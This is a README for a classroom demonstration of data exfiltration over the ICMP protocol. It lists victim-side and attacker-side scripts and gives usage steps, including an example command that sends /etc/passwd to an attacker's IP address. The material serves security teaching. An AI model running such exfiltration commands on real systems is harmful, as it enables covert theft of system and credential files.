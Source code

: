 ## About:
This set of programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over the ICMP protocol.   
- listen.sh: This runs the tcpdump command and produces the output file data.dmp.  
- pyarray.py: This program parses through the data.dmp file.  
- rebuild.sh: This script runs pyarray, produces a file called hexout, and prints the received file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy **exfil.sh** to the **VICTIM MACHINE**  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh.  
(You should see a file called data.dmp which contains the tcpdump output on the attacker machine.)

On the **ATTACKER** machine  
Run
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  


